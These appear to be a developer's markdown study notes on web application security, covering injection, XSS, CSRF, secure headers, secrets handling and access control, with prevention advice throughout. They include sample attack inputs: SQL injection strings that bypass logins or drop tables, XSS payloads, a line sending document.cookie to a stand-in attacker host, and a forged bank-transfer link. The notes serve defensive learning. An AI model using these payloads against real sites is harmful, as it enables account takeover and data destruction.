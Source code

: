 ### Star of Security

![star](../img/star.png)
* https://www.hacksplaining.com/lessons
* https://watchyourhack.com/
* 
### Injections

* Most common Attack
* Injecting code to another piece of code
* Most famous: SQL Injection
* https://www.hacksplaining.com/exercises/sql-injection
```txt
' or 1=1--
The above in Password field so that it will return True
'; DROP TABLE users; --
```
```sql
CREATE TABLE sqlinjection (
  id serial PRIMARY KEY,
  email text UNIQUE NOT NULL
)

INSERT INTO sqlinjection (email) VALUES ('lol');

--Example of sql injection
INSERT INTO sqlinjection (email) VALUES (''; DROP TABLE sqlinjection; --);

-- means comment everything after it
```
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/index.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js
```js
<script>alert('boom')</script>
```
* Scripts injected into the DOM via script tags in innerHTML are not run at the time they are injected
  * Inline scripts are run at the time the original page is parsed
```js
<img src="/" onerror = "alert(1);">
```
* On the other hand, images injected into the DOM are loaded at that time, and if the loading fails, then the onerror event handler is called 
* But Images are loaded
* https://github1s.com/aneagoie/security-client-exercise/blob/HEAD/script.js#L2
* Use **createTextNode instead of innerHTML**

#### 3 ways to prevent Injection
1. Sanitize input: For data validation, only allow user to enter data of expected type(like text, email etc)
2. Parametrize Queries: Give only parameters 
3. Knex.js or other ORMS

### 3rd Party Libraries

* Library you can trust
* Go to Github and check their stars and forks
```sh
npm install -g nsp
# use sudo if you lack permission
nsp check # audit package.json

npm install -g snyk
synk test # audit node_modules directory
```

### Logging

* With good Logging, we would be able to find issues quickly
```sh
npm i winston
npm i morgan
```
```js
const morgan = require('morgan')

app.use(morgan('combined')); // or 'tiny'
```
* http://expressjs.com/en/resources/middleware/morgan.html
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L18-L19
* https://www.npmjs.com/package/winston
* Never log out system errors to Front-end

### HTTPS Everywhere

* SSL/TLS Certificates
* Encrypts the info between client and server
* To get HTTPS
  * Let's Encrypt(https://letsencrypt.org/): Free
  * Github Pages
  * Cloudfare
  
### XSS & CSRF

* https://www.hacksplaining.com/exercises/xss-stored
* https://www.hacksplaining.com/exercises/csrf
* https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
* https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
* **XSS**: Cross Site Scripting
  * Whenever an Application includes untrusted data in a new Web page without proper validation or escaping
  * Updating a Web page with User supplied data using JS
  * Allows Attacker to execute scripts in a victim's browser
  * Example of blog post in which attacker uses comments to include js code
  * Used for **session hijacking**
```js
window.location = 'haxxed.com?cookie=' + document.cookie
// haxxed.com is a bad website
// Send the cookie from your browser
```
  * To prevent this, sanitize the inputs
* **CSRF**: Cross Site Request Forgery
  * Create a bad url that has malicious code in it
```js
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=100">Read more!</a>
// Click on a link to send money
// Here get request and query parameters are used, instead we can also use post request and various other things
```
* We can set headers in our endpoints to make it secure
  * For ex, in twitter you can't send document.cookie to other sites due to Security Content Policy
```js
app.get('/', (req, res) => {
  res.cookie('session', '1', { httpOnly: true, })
  res.cookie('session', '1', { secure: true })
  res.set({
    'Content-Security-Policy': "script-src 'self' 'https://apis.google.com'"
  })
  res.send('Hello World!')
})
// Only places js to be run is self: localhost and google apis
// There are npm packages where this is done automatically
```

#### To Prevent XSS & CSRF

* Sanitize input
* No eval()
* No document.write()
* Content Security Policy
* Secure + HTTPOnly Cookies

### Code Secrets

1. Environment Variables: API key
   * process.env set by create-react-app
   * Under the hood, it uses dotenv package
   * .env file in create-react-app(REACT_APP_SAY_HI=HIII)
   * Run npm start again and you can see the details in process.env
2. Commit History
  * Include .env in .gitignore
  * Don't commit your code secrets to Github

### Secure Headers

* npm install helmet
* Without helmet, make some request in input field
* In Network tab of that request, in the Headers section, you see
  * Info of X-Powered-By: Express
* https://github1s.com/aneagoie/security-server-exercise/blob/HEAD/server.js#L9-L10
* HTTP Headers: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers
* HTTP Header fields: https://www.tutorialspoint.com/http/http_header_fields.htm
* helmet: https://github.com/helmetjs/helmet
* HTTP: The Protocol Every Web Developer Must Know: https://code.tutsplus.com/tutorials/http-the-protocol-every-web-developer-must-know-part-1--net-31177

### Access Control

* Principal of least privilege
  * Give nearly enough so that People can do their work and nothing more
* CORS: Cross origin resource sharing
  * Access to only people we trust using corsOptions
![cors](../img/cors.png)

### Data Management

* Encrypt only sensitive data
  * bcrypt, scrypt, aragon2
  * pgcrypto - encrypt a few columns(Encrypting database)
* https://rangle.io/blog/how-to-store-user-passwords-and-overcome-security-threats-in-2017/

### Don't Trust Anyone

![dta](../img/dta.png)
* ratelimiter when client is compromised and sends requests after requests

### Authentication

![auth](../img/auth.png)
* 2 factor authentication
* https://www.hacksplaining.com/lessons
* https://watchyourhack.com/